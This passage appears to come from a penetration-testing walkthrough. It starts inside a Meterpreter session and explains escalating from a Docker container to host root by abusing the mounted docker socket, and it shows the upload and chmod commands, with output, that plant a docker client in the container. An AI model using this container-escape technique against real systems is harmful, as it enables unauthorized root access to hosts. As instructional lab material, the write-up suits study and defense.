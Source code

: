 ``` shell
[*] Sending stage (816260 bytes) to vulnerable

meterpreter > 
```

## Escalating privileges

To escalate privileges we will abuse the docker socket being available inside
the container. Since `dockerd` runs as root in the host machine, it has root
permissions so we can abuse it to do several things. For example using
`--privileged` can give you several extended capabilities, the text bellow
explaining them was extracted from the official docker documentation:

> By default, Docker containers are “unprivileged” and cannot, for example, run a
> Docker daemon inside a Docker container. This is because by default a
> container is not allowed to access any devices, but a “privileged” container
> is given access to all devices (see the documentation on cgroups devices).
> When the operator executes docker run --privileged, Docker will enable access
> to all devices on the host as well as set some configuration in AppArmor or
> SELinux to allow the container nearly all the same access to the host as
> processes running outside containers on the host. 

You can access devices with `--device`, but in our case, we will map the root
file system (`/`) to the container and have access to it.

Since there is no docker client inside this container, the next step is to
setup the docker client and its dependencies inside our target container. Just
run the command bellow and everything will be done.

``` shell
upload /docker /docker
upload /usr/lib/x86_64-linux-gnu/libltdl.so.7 /usr/lib/x86_64-linux-gnu/libltdl.so.7
chmod 777 /docker
chmod +x /docker
```

``` shell
meterpreter > upload /docker /docker
[*] uploading  : /docker -> /docker
[*] Uploaded -1.00 B of 36.36 MiB (0.0%): /docker -> /docker
[*] Uploaded -1.00 B of 36.36 MiB (0.0%): /docker -> /docker
[*] Uploaded -1.00 B of 36.36 MiB (0.0%): /docker -> /docker
[*] Uploaded -1.00 B of 36.36 MiB (0.0%): /docker -> /docker
[*] Uploaded -1.00 B of 36.36 MiB (0.0%): /docker -> /docker
[*] uploaded   : /docker -> /docker
meterpreter > upload /usr/lib/x86_64-linux-gnu/libltdl.so.7 /usr/lib/x86_64-linux-gnu/libltdl.so.7
[*] uploading  : /usr/lib/x86_64-linux-gnu/libltdl.so.7 -> /usr/lib/x86_64-linux-gnu/libltdl.so.7
[*] Uploaded -1.00 B of 38.47 KiB (-0.0%): /usr/lib/x86_64-linux-gnu/libltdl.so.7 -> /usr/lib/x86_64-linux-gnu/libltdl.so.7
[*] uploaded   : /usr/lib/x86_64-linux-gnu/libltdl.so.7 -> /usr/lib/x86_64-linux-gnu/libltdl.so.7
meterpreter > chmod 777 /docker
meterpreter > chmod +x /docker
meterpreter > 
```
